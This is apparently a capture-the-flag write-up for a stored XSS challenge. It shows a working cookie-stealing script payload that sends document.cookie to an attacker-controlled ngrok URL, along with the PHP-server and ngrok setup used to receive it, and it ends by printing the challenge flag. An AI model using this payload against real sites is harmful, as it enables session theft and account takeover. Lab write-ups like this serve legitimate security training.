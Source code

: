 # XSS - Stored 1

**Point**: 30 points

**Description**: So easy to sploit

## Solution:

There's a form for submitting "title" and "message".

<p align="center"><img width="450px" height="300px" src="https://user-images.githubusercontent.com/48288606/158942903-a138857c-579f-4711-aa2d-f94a17d05106.png"/></p>

Let's check whether XSS is possible. Inject respectively with `<script>alert(1)</script?` and `hacking` (optional)

Nothing was happened. Reversing our input, maybe XSS occurs in second input: `hacking` for title and `<script>alert(1)</script?` for message.

<p align="center"> <img width="400px" height="150px" src="https://user-images.githubusercontent.com/48288606/158943445-969975ce-0c9d-474c-a44c-c398dc3800a6.png"> </p>

Now this proves XSS can be in action. Now we have get the **cookie** from the victim, in this challenge victim is **administrator**. We can handle that with `document.cookie`. But the point is how we can get it; as usual payload we use `alert`, `console.log`, ... it won't work when these actions take place in client side and we would only see our cookie on the screen. 

We have to delivery all collected cookie from victim (administrator) to a specific server that we take control. To do that, we can think of a tag like `<img/>` to contain our server link in `src` attribute and when the victim **GET** an image from our source, we can see the full path **URL Request** and inject cookie to that URL, also find a way to "call" that image. Payload will look like this:

```javascript
<script> document.write("<img src='{your_server_link_site}?cookie=" + document.cookie + "' />") </script>
```

Let's take action step-by-step:

1. Run PHP server with **localhost** and optional **port** without any content: `php -S localhost:4444 `

2. Public our server by tunneling. I use **ngrok** to server this purpose:
   - Connect to ngrok with your account token: `ngrok authtoken {your_account_token}`
   - Tunneling our local site to public network with port specified above: `ngrok http 4444`
   - Get the public link we get from ngrok and create with payload above.
   <p align="center"><img src="https://user-images.githubusercontent.com/48288606/158958343-5d03bfd3-686b-437b-8d3d-97bda34cedc1.png" /></p>

3. Send our payload: `hacking` in **title** and 
```javascript
<script> document.write("<img src='http://85ae-123-21-33-87.ngrok.io?cookie=" + document.cookie + "' />") </script>
``` 
in **message**

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/158959186-eb82cb0f-93ad-4324-953f-3e43d4e86bf1.png" /> </p>

The cookie create by **administrator** shown up in the request.

FLag: **NkI9qe4cdLIO2P7MIsWS8ofD6**

